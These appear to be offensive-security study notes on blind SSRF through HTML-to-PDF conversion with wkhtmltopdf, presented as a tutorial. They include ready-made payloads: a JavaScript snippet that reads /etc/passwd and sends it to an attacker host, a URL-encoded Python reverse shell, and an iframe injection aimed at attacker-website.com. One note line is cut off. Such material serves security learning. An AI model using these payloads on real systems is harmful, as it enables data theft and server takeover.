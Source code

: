 Some websites, allows their users to generate a PDF based on the input they have provided.
## Data Exfiltration with Blind SSRF
In the following example scenario, a website accepts a `.html` input via file upload, which then converts the said HTML file into a PDF.

1. First let's confirm that a SSRF vulnerability exists by creating an `index.html` file that we will use to house our payload and upload it into the web application.
```html
<!DOCTYPE html>
<html>
	<body>
		<h1>Hello, World!</h1>
		<img src="http://<OUR IP>:PORT/x?=viaimgtag"/>
	</body>
</html>
```
2. For simplicity, we will use a Netcat listener to test for Blind SSRF.
```bash
nc -nvlp 4444
```
3. After awhile, we will see a response to our Netcat listener.
```bash
connect to [10.10.14.253] from (UNKNOWN) [10.129.155.177] 37124
GET /?x=testing HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip
Accept-Language: en,*
Host: 10.10.14.253:4444
```
By inspecting the request, we notice `wkhtmltopdf` in the User-Agent. If we browse [wkhtmltopdf's downloads webpage](https://wkhtmltopdf.org/downloads.html), the below statement catches our attention:

`Do not use wkhtmltopdf with any untrusted HTML – be sure to sanitize any user-supplied HTML/JS; otherwise, it can lead to the complete takeover of the server it is running on! Please read the project status for the gory details.`

This means we can execute JavaScript, this widens our attack surface and gives us more opportunity to escalate the attack.
### Read Local File or Gain RCE using JavaScript Payload
We will now modify our `index.html` file to use JavaScript and read a local file inside the web server to exfiltrate data. We can use the following payload for this task:
```html
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```

Additionally, we can also use this technique to gain remote code execution (RCE) into the web server using the following payload:
```html
<html>
    <body>
        <b>Reverse Shell via Blind SSRF</b>
        <script>
        var http = new XMLHttpRequest();
        http.open("GET","http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527", true); 
        http.send();
        http.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
    </body>
</html>
```
> Note: The 
## SSRF Chain with XSS
If these inputs are non-sanitized, this can lead to a SSRF by chaining it with a [Cross Site Scripting](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FClient-side%20Vulnerabilities%2FCross-Site%20Scripting%2FIntroduction) (XSS) attack.

Usual pre-requisite for an attack like this is for the website to be vulnerable from Cross Site Scripting (XSS). For example, a target website generates an invoice that includes your full name in it. You can use the following payload as your full name: `<iframe src="http://attacker-website.com" width="400" height="400">` which then a PDF generator library would take and generate a PDF and executing the `iframe` code an attacker has provided.
